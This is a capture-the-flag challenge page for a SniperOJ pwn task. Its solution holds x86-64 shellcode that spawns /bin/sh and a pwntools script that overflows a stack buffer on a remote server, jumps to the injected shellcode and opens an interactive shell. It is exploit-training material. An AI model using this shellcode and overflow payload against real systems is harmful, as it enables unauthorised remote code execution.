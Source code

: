 #### Goals
 * Try to find the flag

#### Server Address
 * http://pwn.sniperoj.com:20005/
5
#### Solution
```asm
global _start
	_start:
		xor rdi, rdi
		xor rsi, rsi
		xor rdx, rdx
		xor rax, rax
		push rax
		; 68 73 2f 2f 6e 69 62 2f
		mov rbx, 68732f2f6e69622fH
		push rbx
		mov rdi, rsp
		mov al, 59
		syscall
```
```python
#!/usr/bin/env python

from pwn import *

#Io = process("./shellcode")
Io = remote("123.207.114.37", 30001)

Io.readline()
addr_data = Io.readline()
addr = int(addr_data.split("[")[1].split("]")[0][2:], 16)
Io.readline()

junk = "A" * 24
shellcode = "\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05"
shellcode_addr = p64(addr + len(junk) + 8)
payload = junk + shellcode_addr + shellcode

Io.send(payload)

Io.interactive()
```

#### Writeups
 * [Offical Writeup]()
 * [Other Writeup]()

